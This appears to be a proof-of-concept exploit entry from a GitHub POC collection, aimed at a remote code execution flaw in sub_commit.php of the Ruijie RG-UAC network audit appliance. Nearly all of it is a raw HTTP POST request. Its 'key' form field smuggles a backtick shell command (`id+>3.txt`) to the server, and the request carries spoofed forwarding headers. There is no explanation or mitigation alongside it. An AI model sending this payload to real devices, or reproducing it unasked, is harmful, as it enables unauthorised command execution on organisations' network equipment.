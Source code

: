 # RG-UAC_sub_commit.php_rce
from: https://github.com/wy876/POC/blob/main/%E9%94%90%E6%8D%B7RG-UAC%E7%BB%9F%E4%B8%80%E4%B8%8A%E7%BD%91%E8%A1%8C%E4%B8%BA%E7%AE%A1%E7%90%86%E5%AE%A1%E8%AE%A1%E7%B3%BB%E7%BB%9Fsub_commit.php%E5%AD%98%E5%9C%A8%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C.md

```
POST /view/vpn/autovpn/sub_commit.php?action=delete HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) 
Gecko/20100101 Firefox/124.0
Accept: 
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*
;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-GPC: 1
Connection: close
Cookie: PHPSESSID=ebd507c9bc5a4293c3e5e596f37157bf
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 0000:0000:0000::0000
X-Originating-IP: 0000:0000:0000::0000
X-Remote-IP: 0000:0000:0000::0000
X-Remote-Addr: 0000:0000:0000::0000
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

key=`id+>3.txt`
```
